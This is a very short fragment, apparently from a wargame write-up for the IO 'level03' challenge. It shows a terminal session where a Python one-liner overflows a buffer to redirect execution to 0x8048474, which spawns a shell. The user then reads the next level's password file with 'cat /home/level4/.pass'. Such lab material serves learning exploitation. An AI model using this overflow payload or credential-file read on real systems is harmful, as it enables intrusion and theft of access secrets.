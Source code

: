 level3@io:/levels$ ./level03 $(python -c 'print "A" * 76 + "\x74"')
This is exciting we're going to 0x8048474
Win.
sh-4.3$ cat /home/level4/.pass
